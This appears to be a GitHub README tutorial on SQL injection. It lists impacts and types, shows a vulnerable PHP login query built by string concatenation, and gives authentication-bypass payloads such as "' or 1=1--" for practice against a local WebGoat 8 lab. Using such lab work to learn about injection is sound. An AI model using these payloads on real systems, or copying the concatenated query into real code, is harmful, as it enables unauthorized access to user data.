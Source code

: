 # SQL-Injection

![sqlinject_1](https://user-images.githubusercontent.com/9671419/87229079-e7e77980-c3c2-11ea-8066-338d5a5ad93e.JPG)

![sqlinject_2](https://user-images.githubusercontent.com/9671419/87229082-e918a680-c3c2-11ea-9bad-ed95e4841a2b.JPG)

## Impact of SQL Injection :

- Extract sensitive information

- Misusing authentication details

- Delete data & Drop tables

## Types of SQL Injection

SQL Injection

1. In-Band SQLi
   
     a. Error Based
     
     b. Union Based
     
2. Blind SQLi

     a. Boolean Based
     
     b. Time Based
    
3. Out of bound SQLi

## SQL Injection 

   SAMPLE:
   
   $statement = " SELECT * FROM users WHERE username = '$user' AND password = '$password' ";
   
   $statement = " SELECT * FROM users WHERE username = 'Dowlath' AND password = 'dowlath' ";
   
   HACKER:
   
   $statement = " SELECT * FROM users WHERE username = 'Dowlath OR '1' == '1' --' AND password = '$password' ";
   
   Example :
   
   Smith' or '1'='1

   Smith' or 1=1--

   Content is  only one user: Plane' or 1=1 LIMIT 1-- 

   if you want to get 5 users.

   Content is  only one user: Plane' or 1=1 LIMIT 5-- 

## TEST

1. Google find " webgoat8 "

2. Download github jar file from corresponding location.

3. If you downloaded latest version *.jar file , it will support latest version of java. So before run the jar file check once you java -version.

4. Run the jar file => D:\Spring-Boot-Security\sql-injection-webgoat-8.0>java -jar "webgoat-server-8.0.0.M17.jar"

5. Login in the browser -> http://localhost:8080/WebGoat/login

 ![login](https://user-images.githubusercontent.com/9671419/87229033-963eef00-c3c2-11ea-823e-dfbb428e860e.PNG)

6. If you are not registered create the user and access.

7. Execute the sql inject commands.

   As follows patterns,
   
   Smith' or '1'='1

   Smith' or 1=1--

   Content is  only one user: Plane' or 1=1 LIMIT 1-- 

   if you want to get 5 users.

   Content is  only one user: Plane' or 1=1 LIMIT 5--    
  
![webgoat_2](https://user-images.githubusercontent.com/9671419/87229035-97701c00-c3c2-11ea-9eeb-785e3aeaa679.PNG)


